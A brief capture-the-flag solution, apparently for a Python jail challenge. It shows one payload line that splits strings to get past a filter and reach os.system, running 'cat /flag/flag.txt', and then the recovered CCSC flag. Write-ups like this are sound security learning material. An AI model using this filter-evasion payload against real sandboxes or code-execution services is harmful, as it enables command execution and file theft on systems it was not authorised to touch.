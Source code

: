 ``` print(getattr(getattr(globals()['__buil'+'tins__'], '__im'+'port__')('o'+'s'), 'sy'+'stem')('ca'+'t /flag/flag.txt'))```


Flag: ```CCSC{pyth0N_j@IL_aG4iN_s0_b0R1nG}```
